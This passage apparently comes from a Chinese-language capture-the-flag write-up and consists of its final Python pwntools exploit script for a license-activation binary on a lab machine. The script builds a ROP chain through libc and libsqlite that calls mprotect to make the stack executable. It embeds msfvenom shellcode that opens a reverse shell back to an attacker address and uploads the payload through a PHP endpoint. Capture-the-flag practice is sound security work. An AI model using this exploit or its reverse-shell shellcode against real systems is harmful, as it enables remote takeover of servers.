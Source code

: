 # 最终漏洞脚本

现在我们可以整理我们的脚本了:

```
from pwn import *
import requests

## Set Runtime variables
context.binary = './activate_license'
## Change the value of int to what we retrieved above
libc_start = int('7fb1ff018000', 16)
## Path to the binary on the box which we found earlier
libc_path = "/usr/lib/x86_64-linux-gnu/libc-2.31.so"
## Change the value of int to what we retrieved above
libsqlite_start = int('7fb1ff1dd000', 16)
## Path to the binary on the box which we found earlier
libsqlite_path = "/usr/lib/x86_64-linux-gnu/libsqlite3.so.0.8.6"
## Change the value of int to what we retrieved above
stack_start = int('7fffddc82000', 16)
stack_end  = int('7fffddca3000', 16)
## Calculate length of stack
stack_length = stack_end - stack_start
## Paste shellcode from msfvenom we created earlier, make sure you have your Kali IP and port
buf =  b""
buf += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
buf += b"\x97\x48\xb9\x02\x00\x11\x5c\x0a\x0a\x0e\xc6\x51\x48"
buf += b"\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e"
buf += b"\x48\xff\xce\x6a\x21\x58\x0f\x05\x75\xf6\x6a\x3b\x58"
buf += b"\x99\x48\xbb\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48"
buf += b"\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05"
## Use pwntools to create an object of the libc-2.31.so file we downloaded
libc          = ELF("./libc-2.31.so",checksec=False)
## Set start address to value we set above
libc.address  = libc_start
## Use pwntools to create an object of the libspqlite3.so.0.8.6 file we downloaded
libsql        = ELF("./libsqlite3.so.0.8.6",checksec=False)
## Set start address to value we set above
libsql.address = libsqlite_start
## Use pwntools ROP function to create an oject containing the libc and libsql objects we created above
rop            = ROP([libc, libsql])
## Look at the symbols table for value of mprotect in the libc object we created above
mprotect = libc.symbols['mprotect']
## Look in the rop object created above for the following register addresses
pop_rdi  = rop.rdi[0]
pop_rsi  = rop.rsi[0]
pop_rdx  = rop.rdx[0]
jmp_rsp  = rop.jmp_rsp[0]
## Set offset to the value we found earlier by causing a segfault
offset  = 520
# Build payload using all of the above
payload = b'A' * offset
payload += p64(pop_rdi) + p64(stack_start)
payload += p64(pop_rsi) + p64(stack_length)
payload += p64(pop_rdx) + p64(7)
payload += p64(mprotect)
payload += p64(jmp_rsp)
payload += buf
# Post payload to the binary on the box to crash it like we did locally
requests.post('http://10.10.11.154/activate_license.php', files = { "licensefile": payload } )
```

